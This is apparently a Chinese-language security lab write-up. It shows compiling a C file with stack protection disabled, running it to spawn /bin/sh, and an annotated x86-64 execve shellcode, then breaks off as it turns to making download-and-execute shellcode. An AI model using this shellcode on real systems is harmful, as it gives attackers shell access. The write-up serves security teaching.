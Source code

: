      - 打开虚拟机，新建shell.c文件，将上述链接中的代码写入其中：  
     ![](img/05.JPG)  
     - 使用`gcc -fno-stack-protector -z execstack shell.c -o shell`将 C 语言文件编译链接成可执行文件
     - 使用`./shell`运行，将会调用`/bin/sh`  
     ![](img/04.JPG)  
     - 代码解析：  
  ```
         ;int execve(const char *filename, char *const argv[],char *const envp[])
	xor 	rsi,	rsi			;clear rsi
	push	rsi				;push null on the stack
	mov 	rdi,	0x68732f2f6e69622f	 ;/bin//sh in reverse order
	push	rdi
	push	rsp		
	pop	rdi				;stack pointer to /bin//sh
	mov 	al,	59			;sys_execve
	cdq					;sign extend of eax
	syscall
````
   - 汇编源代码较短，主要是参数入栈，调用execve函数，其中最主要的是系统函数的调用，需要使用对应的数字。  
### 编写下载执行程序的shellcode：  
- 修改[示例代码](https://www.exploit-db.com/shellcodes/40094)，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序：